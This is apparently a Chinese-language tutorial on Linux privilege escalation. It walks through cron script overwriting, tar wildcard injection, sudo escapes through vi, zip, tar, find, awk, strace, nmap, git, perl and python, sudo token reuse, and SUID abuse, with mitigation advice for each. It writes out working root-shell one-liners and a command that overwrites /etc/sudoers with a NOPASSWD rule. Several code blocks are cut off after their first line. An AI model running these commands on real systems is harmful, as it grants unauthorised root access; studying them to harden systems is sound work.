


Linux提权
Linux常见提权问题
Linux crontab提权
Crontab文件覆写
环境搭建
以下测试均在ubuntu18.04下进行
Ubuntu切换到root账号sudo su，新建一个测试账号adduser test。然后根据系统提示进行密码和注释性描述的配置，全程不用自己输入其他命令即可配置成功，用户主目录和命令解析程序都是系统自动指定。
cat /etc/passwd 可看到test:x:1001:1001:,,,:/home/test:/bin/bash
不要用useradd，这种方式只能在控制台中互相切换用户，一旦重启系统，用该用户还是无法登陆（只能用原来的用户或root登陆）。
不在/etc/sudoers下添加test账号，当前test账户无法执行sudo命令
模拟cron计划任务
模拟一个定时任务需要，需要定时删除test账户cleanup目录下的文件。
切换到test用户，并创建cleanup目录，添加一些文件
1 | su test |
并创建计划任务的脚本文件cleanup.py，并赋予权限chmod 777 cleanup.py
1 | #!/usr/bin/env python |
root用户添加cron计划任务，每2分钟执行一次cleanup.py
1 | */2 * * * * /tmp/cleanup.py |
cron计划任务成功执行。
提权
当拥有test账户的时候，可以直接修改cleanup.py提权。提权的方式有很多，这里尝试添加/bin/dash的sid实现。
修改前：
test账户下，修改cleanup.py的os.system命令
1 | try: |

在18.04上复现不成功，据说在ubuntu16以上的版本都无法通过直接修改dash 属性的方式提权。
但是可以直接在/etc/sudoers添加当前账号的sudo权限，并设置为NOPASSWD，这样甚至还不需要输入当前用户的密码。
1 | try: |
已成功提权。
还有很多方式，例如直接写一个ssh公钥等等等…
提权条件
在以上复现过程，看上去需要两个条件
- root用户配置crontab任务时使用test用户的cleanup.py
- test用户有权限编辑cleanup.py（cleanup.py 权限为777）
尝试修改cleanup.py拥有者为root并设置仅root可读写执行chmod 700 cleanup.py
test用户已经没有权限修改cleanup.py了。
但需要注意的是，如果cleanup.py在test用户的/home/test目录下呢？
发现即便test用户没有权限修改cleanup.py文件，但是却可以重命名、移动这个文件。这说明test用户可以任意修改用户目录下的文件
因此其实利用crontab文件覆写提权需要满足以下两个条件之一：
- root用户配置crontab任务时使用test用户的脚本文件（test用户拥有文件的所有权限）
- root用户配置crontab任务时使用的脚本文件在test用户目录下
Crontab Tar Wildcard注入
模拟cron计划任务
设定一个定时任务来运行tar程序，每分钟备份1次/html文件夹到/var/backups
1 | nano /etc/crontab |
并在/var/www/html目录下创建一些文件
1 | echo "" > a.html |
提权
当拥有test账号之后，可以进入/var/www/html这个目录，创建脚本文件
1 | echo 'echo "test ALL=(root) NOPASSWD: ALL" > /etc/sudoers' >test.sh |
简单说明下，tar的checkpoint相关参数：
1 | --checkpoint[=NUMBER] |
上面的例子中我们创建了相关的文件，实际在执行过程中，由于我们将checkpoint值设为1，即每个文件执行一次action动作，其就将文件当成了参数，执行了sh test.sh的动作，而由于我们的crontab任务是以root权限运行的。所以test.sh里的内容都会以root权限执行
但实际上不是特别可行，直接用root用户尝试执行一下tar -zcPf /var/backups/html.tgz /var/www/html/*，返回
1 | /var/www/html/--checkpoint=1 |
带上了tar压缩文件的路径的话，会把这个路径添加进去，导致不能成功运行test.sh
再尝试执行切换到/var/www/html目录下执行tar -zcf /var/backups/html.tgz *，返回
1 | test.sh |
可以看到成功执行了test.sh
这种提权方式利用条件相对比较苛刻，但是不排除会有把压缩命令放在/var/www/html下的脚本然后在crontab定时执行脚本的情况。
防护措施
crontab定时任务是LINUX上最常用的一个功能，不过使用不当很容易受到提权。
使用crontab时请注意以下两点：
- crontab任务尽量不要写到/etc/crontab文件里，通过crontab -e去创建，让他写到默认的/var/spool/cron下
- 能不用 root 去创建尽量不用，如果一定要用root，请保存到一个其他用户进不去、改不了、看不了的位置（最好能用chattr处理下）
sudo提权
sudo简介
Sudo是linux系统管理指令，允许系统管理员委派授权给某些用户（或用户组）以root用户或其他用户身份运行某些（或全部）命令的能力，同时提供命令及其参数的审计跟踪。官网：https://www.sudo.ws
特性
- 能够授权指定用户在指定主机上运行某些命令。 如果未授权用户尝试使用 sudo，会提示联系管理员。
- 可以提供日志，记录每个用户使用sudo操作。
- 为系统管理员提供配置文件，允许系统管理员集中地管理用户的使用权限和使用的主机。
- 使用时间戳文件来完成类似“检票”的系统，默认存活期为5分钟的“入场券” 。
sudo相关文件
配置文件：/etc/sudoers,etc/sudoers.d 可以修改/etc/sudoers也可以/etc/sudoers.d目录下新建配置文件
时间戳文件：/var/db/sudo、日志文件：/var/log/secure
授权规则
user host=(runas) command
事例：root ALL=(ALL) ALL
- root表示用户名
- 第一个ALL指示允许从任何终端、机器访问sudo
- 第二个(ALL)指示sudo命令被允许以任意用户身份执行
- 第三个ALL表示所有命令都可以作为root执行
使用sudo -l查看当前权限
sudo提权
sudo执行原理
- 普通用户执行命令
- 检查
/var/db/sudo/目录下是否有用户时间戳（时间戳默认从上一次执行sudo命令5分钟后过期），ubuntu是在/var/run/sudo/ts/[username]下 - 检查
/etc/sudoers配置文件，是否有sudo权限 - 执行sudo命令并返回结果
- 退出sudo返回普通用户shell环境
zip、tar、strace、nmap、git、ftp、vim、find、passwd
perl、python、less、awk、man、vi
sudo提权
vi
一个场景：允许test用户使用vi编辑/root目录下的test.txt文件
在/etc/sudoers添加test ALL=(ALL) /usr/bin/vi /root/test.txt
切换到test用户后，直接vi编辑/root/test.txt发现没有权限
使用sudo vi /root/test.txt并输入:!bash，提权成功
Zip
sudo zip /tmp/test.zip /tmp/test -T --unzip-command="sh -c /bin/bash"
-T 表示测试test.zip的完整性
–unzip-command 与 -T 一起使用，可以指定自定义命令用于解压test.zip，因此可以自定义解压命令是以root权限执行的，这里指定为sh -c /bin/bash，就可以以root权限获取一个shell
tar
sudo tar cf /dev/null testfile --checkpoint=1 --checkpoint-action=exec=/bin/bash
–checkpoint-action选项是提权点，可以自定义需要执行的动作，是以root权限执行并指定为exec=/bin/bash，以root权限执行/bin/bash，获取一个root权限的shell
more
sudo more /etc/rsyslog.conf
然后键入!/bin/bash 可获得root权限的shell，less和man同理（sudo man ssh）
find
sudo find /bin/ -name ls -exec /bin/bash
对于find检索到的每一个结果，是以root权限执行
awd
sudo awk 'BEGIN {system("/bin/bash")}'
strace
sudo strace -o/dev/null /bin/bash
strace 以root权限运行跟踪调试/bin/bash，从而获取root权限的shell
nmap
以root权限执行nmap，指定nmap执行脚本获取root权限shell
1 | echo "os.execute('/bin/sh')" > /tmp/shell.nse |
低版本的nmap3.x
1 | sudo nmap --interactive |
git
sudo git help status
然后键入!/bin/bash即可以以root权限执行/bin/bash，获得root权限的shell
ftp
sudo ftp
在ftp交互式接口下键入!/bin/bash
vim
sudo vim -c '!sh'直接以root权限运行指定命令
perl
sudo perl -e 'exec "/bin/bash";'
python
sudo python -c 'import pty;pty.spawn("/bin/bash")'
sudo缓存
在sudo执行流程的第二步：检查/var/db/sudo/（/var/run/sudo/ts/[username]）目录下是否有用户时间戳。因此恶意程序可以监控这个时间戳文件，在允许时间范围内可利用sudo执行命令。
有一种利用sudo token实现的提权场景
前提要求：
完全启用Ptrace（/proc/sys/kernel/yama/ptrace_scope == 0）
当前用户必须开启一个拥有有效sudo令牌并且相同uid的活动进程

原理
项目目录中的Exploit.sh会向当前用户的所有进程注入Shell代码，并使用它们的sudo令牌来验证我们自己的sudo口令，exploit.sh地址
修复建议
设置
timestamp_timeout为0将要求用户每次sudo执行都输入密码确保
tty_tickets启用防止在tty会话之间发生泄漏
sudo提权缓解
sudo的配置文件只能限制那些用户可以使用sudo，可以使用哪些命令，但不能限制用户使用这些命令进行提权获取root shell，我们设置sudo的本意就是让用户能临时获取root 权限执行某些命令而不是永久获取root shell 并可以root权限执行任何命令
如非必须不要安装第三方工具命令
比如strace、ftp、nmap、tcpdump、except等命令，这些都不是必须但容易实现sudo提权的命令
sudo不能滥授权
根据权限最小化进行授权，仔细审核能不授权的不授权
使用堡垒机拦截非法命令
前置堡垒机，在堡垒机上进行非法命令拦截
setuid & setgid 权限提升
Linux SETUID机制
进程运行时能够访问哪些资源或文件，不取决于进程文件的属主属组，而是取决于运行该命令的用户身份的ui d/gid，以该身份获取各种系统资源。
对一个属主为root的可执行文件，如果设置了SUID位，则其他普通用户都将可以以root身份运行该文件，获取相应的系统资源。
setuid的作用是让执行该命令的用户以该命令拥有者的权限去执行，比如普通用户执行passwd时会拥有root的权限，这样就可以修改/etc/passwd这个文件了。
1
2test@test-machine:~$ ll /usr/bin/passwd
-rwsr-xr-x 1 root root 54256 5月 17 2017 /usr/bin/passwd*setuid的标志为
s，出现在x的地方。比如上面passwd中rws，而setgid的意思和它是一样的，即让执行文件的用户以该文件所属组的权限去执行。stick bit
/tmp是系统的临时文件目录，所有的用户在该目录下拥有所有权限。但用户A在/tmp目录下创建的文件，用户B是没有权限删除该文件的。这是stick bit(粘滞位)的概念。它是针对目录来说的，如果目录设置了stick bit，则该目录下的文件除了文件创建者和root可以删除和修改，其他用户均不能改动。
1
2test@test-machine:~$ ll -d /tmp/
drwxrwxrwt 18 root root 4096 1月 20 15:43 /tmp//标志是
t
利用suid可执行程序提权
寻找设置了suid的可执行程序
1 | find / -perm -u=s -type f 2>/dev/null |
nmap
很多时候，管理员将为nmap设置SUID位以便能够有效地扫描网络，因为如果不使用root权限运行所有nmap扫描技术都无法正常工作。
确认一下nmap是否有SUID位设置
1 | test@test-machine:~$ which nmap |
测试过程中在ubuntu16 nmap7.01 通过–script指定nmap脚本的方式，已经不能成功提权（可以看到nmap中有对应的提醒WARNING: Running Nmap setuid, as you are doing, is a major security risk.）
低版本的nmap3.x
1 | sudo nmap --interactive |
vim
测试样例：
root用户在/tmp下创建一个test用户无法修改test.txt文件
1 | test@test-machine:/root$ ll /tmp/test.txt |
test用户尝试用vi以及尝试用vim去修改文件内容
因此SUID 位不应在任何文件编辑器/编译器/解释程序上设置SUID位，因为攻击者可以轻松地读取/覆盖系统上存在的任何文件。
缓解措施
应在整个系统中最小化设置了setuid或setgid位的程序的数量，并且检查对应程序是否存在缺陷能被恶意利用提权。